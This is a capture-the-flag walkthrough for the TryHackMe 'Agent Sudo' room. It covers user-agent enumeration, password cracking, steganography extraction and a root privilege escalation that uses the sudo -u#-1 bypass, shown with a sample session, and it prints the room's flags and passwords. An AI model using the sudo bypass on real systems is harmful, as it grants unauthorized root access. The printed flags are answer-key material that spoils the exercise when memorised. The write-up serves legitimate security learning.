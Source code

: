 # Report on Agent Sudo
[![Header](./assets/Header.png)](https://tryhackme.com/r/room/agentsudoctf)

# Enumiration 
1. The no of ports open -> **3**

we can see the nmap scan report in `nmap.scan`
There is a clue that user agent should be masked to `R`.
Use burpsuite to do so.
![Burpsuite](./assets/user-agent.png)
In the abobe picture we can see that i have changed the useragent to be `R`
we can achieve the same using `curl`
```bash
curl -A "R" -L <Ip address>
`-A` -> masks the user-agent
`-L` -> Follows Redirects
```
2. How you redirect yourself to a secret page? -> **user-agent**

Now we get to know that there are 25 employes and 26 alphebats. 
Lets bruteforce one by one 
```bash
curl -A "C" -L <IP address>
```
The above user returs some secreat..
Its the username.
refer [curl-c.txt](./files/curl-c.txt)

3. What is the agent name? **chris**

# Bruteforce
1. FTP password
A. refer [ftp-bruteforce](./files/ftp-bruteforce.txt)

once am into the FTP, i have seen 3 files, got them to my host and then started ro extracte any hidden files using binwalk.
```bash
binwalk -e <filename>
```
2. Zip file password
Found hidden zip file `8072.zip`.
Its a password protedcted zip file and used john to extract the password
refer [8072.zip](./files/8702-zip-password.txt )

3. Steg password 
And the other file `cute-alien.jpg` -> being a jpg file, there is a prossibility to extracte stegs from the file.
I used `stegseek` to do the same 
```bash
stegseek <filename>
```
![setegseek](./assets/stegseek.png)

[output-file](./files/cute-alien.jpg.out)

```bash
stegseek cute-alien.jpg                                  [ ⚡9ms ] [ 02:26 PM ]
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
4. Who is the other agent (in full name)?
[output-file](./files/cute-alien.jpg.out)

5. SSH password
`hackerrules!`
[output-file](./files/cute-alien.jpg.out)

# Flag

1. User flag
**b03d975e8c92a7c04146cfa7a5a313c7**

2. What is the incident of the photo called? 
**roswell alien autopsy**

# Privilege escalation

```Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

`# User privilege specification`
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash
the above command will try to execute the /bin/bash using the username of the `-1`
Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
```
1. CVE number for the escalation 
[Exploit-db](https://www.exploit-db.com/exploits/47502)

2. What is the root flag?
**b53a02f55b57d4439e3341834d70c062**

3. (Bonus) Who is Agent R?
**DesKel**
